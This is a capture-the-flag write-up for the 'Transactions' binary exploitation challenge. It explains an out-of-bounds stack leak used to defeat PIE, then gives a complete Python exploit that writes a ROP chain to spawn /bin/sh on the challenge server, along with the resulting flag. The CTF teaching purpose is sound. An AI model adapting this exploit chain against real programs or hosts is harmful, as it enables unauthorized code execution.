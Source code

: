 # T̴̙̮͓̠̪̮̠́̅ͅr̢͈̯̪̬̣̻̓a̢̺̭̣͌ͯn̷̘̮̼͉̮͓̯̑s̵̟̪̞̘͂͗a̛͍̼͎̳̭̼̦̔̃͐ͅcͩ̈́̋̈͏̘̲ṱ̵̦̠̅͐ḯ̯̖̪̜̭̳̓̇̅̕ͅo̳̫̼͈̻͂̑͞n̓͌̂̑͏͙̙͇s̫͓͛́ [15]
Tags: Binary Exploitation

_Activating the panel, you spot a notification from your SieberrHealthTracker™:_

**`WARNING: Unusual levels of plasma lactate detected in the body. Please seek out the nearest SieberrHealth hospital soon...`**

_That can't be good._

The [Transactions panel](https://drive.google.com/uc?id=1p2qTzONfrK_Wx-IcspcqmoFQFevcL8UJ) doesn't have a stop button, but there has to be a way to stop this...

###### Clarification: the port and IP are unchanged; challs.sieberrsec.tech 51384

Hints:
0. (free) If you haven't done the first Transactions challenge, you should probably do that first. These hints are in hierarchical order: if one hint confuses you, you shouldn't buy the next one.
1. (1 point) You'll need to reach /bin/sh for this one.
2. (3 points) The challenge has no libc version attached for a reason (muse on this!), but if you think it'll be helpful: docker `ubuntu:20.04`.
3. (5 points) Wondering how to leak? I'm a big fan of assignment expressions, but I had to edit one out here :/

Files: `transactions`, with checksec:
```asm
[*] 'transactions'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

###### You might want to install [`pwnscripts`](https://github.com/152334H/pwnscripts) to try out the code in this writeup for yourself!

## Solving
Option 2 (`edit`) is all you need.

If you're experienced, the exploit chain should be pretty obvious here: after extending `humancount`, overwrite the return pointer stack for `main()` with a basic ROP-chain to call `system("/bin/sh")`.

The real meat of this challenge is in defeating ASLR, for which the 5 point hint comes into play. Consider this part of the program:
```c
prompt("How much should this patient be charged? ", &cost);
humans[opt] = cost;
printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt]);
```
If you know what an assignment expression is, you'll know that the last two lines here could've been shortened to:
```c
printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt] = cost);
```
Why is this so important? In order to leak an address, we need `printf()` to display a value that _wasn't_ edited by the user. In the line immediately above, this is impossible, because both given values are immediately manipulated by the user.

_With_ the separate assignment expression & statement, we can pull off a cool trick:
```c
humans[-4] = 106;
printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt]);
```
`&opt == humans-4`. If we modify `opt`, `printf()` will print out whatever `humans[opt]` is pointing to, giving an Arbitrary Relative Leak.

Everything after that is really just paperwork, with the right amount of experience:
```python
from pwnscripts import *    # use pwnscripts-dev!
from re import findall
context.binary = 'transactions'
class Transactions(pwnlib.tubes.remote.remote):
    def choose(r, opt: int):
        r.recvuntil('kill all patients\n')
        r.sendlineafter('> ', str(opt))
    def edit(r, ind: int, val: int):
        r.choose(2)
        r.sendlineafter('to edit? ', str(ind))
        r.sendlineafter('be charged? ', str(val))
        return unpack(pack(int(findall(b'-?[0-9]+', r.recvline())[-1]),sign=True))
    def kill(r):
        r.choose(3)
        r.recvline()
        log.info('flag1: %s' % r.recvline())

r = Transactions('challs.sieberrsec.tech', 51384)
OFFSETS = {'humancount': -2, 'opt': -4, 'rsp': -4, 'ret': 106} # relative stack offsets from humans[]

# Here, we expect [rsp-0x8] to be <main+321>.
PIE_leak = r.edit(OFFSETS['opt'], OFFSETS['rsp']-1)
PIE_leak <<= context.bits//2
PIE_leak+= r.edit(OFFSETS['opt'], OFFSETS['rsp']-2)
assert is_addr.PIE(PIE_leak) # this has a decent chance of failing.
context.binary.symbols['main'] = PIE_leak-321   # auto-update base address

# Now, we'll setup a ROP-chain to call system("/bin/sh").
context.binary.symbols['scratch'] = context.binary.address+0x4500 # dumping ground for "/bin/sh".
R = ROP(context.binary)
R.prompt(*[context.binary.symbols['scratch']]*2)
R.prompt(*[context.binary.symbols['scratch']+context.bytes//2]*2)
R.raw(R.ret.address)    # MOVAPS issue
R.system(context.binary.symbols['scratch']) # system("/bin/sh")

# write the rop-chain
r.edit(OFFSETS['humancount'], 1<<30) # need this for forward indexing
for b in group(4, R.chain()):
    r.edit(OFFSETS['ret'], u32(b, sign='signed'))
    OFFSETS['ret'] += 1

# Get shell by quitting main()
r.kill()
r.sendline(str(u32(b'/bin', sign='signed')))
r.sendline(str(u32(b'/sh\0', sign='signed')))
r.interactive()
```
## Fun extra stuff
After getting a shell, there's one last thing you need to do:
```sh
[*] Switching to interactive mode
$ ls
SieberrHealth_WorldDomination.sh
bin
dev
flag
fun.c
lib
lib32
lib64
libx32
root
transactions
usr
```
Stop the plot-relevant world domination plan!
```sh
$ ./Sieberr*
./SieberrHealth_WorldDomination.sh - testing script for SieberrHealth
Options:
 -s: (s)top mass murder (why would we want this?)
 -g: enable mass (g)enocide (as is the plan)
$ ./Sieberr* -s
IRS{w0r1d_s@v3d}
$
```
So,
## Flag
`IRS{w0r1d_s@v3d}`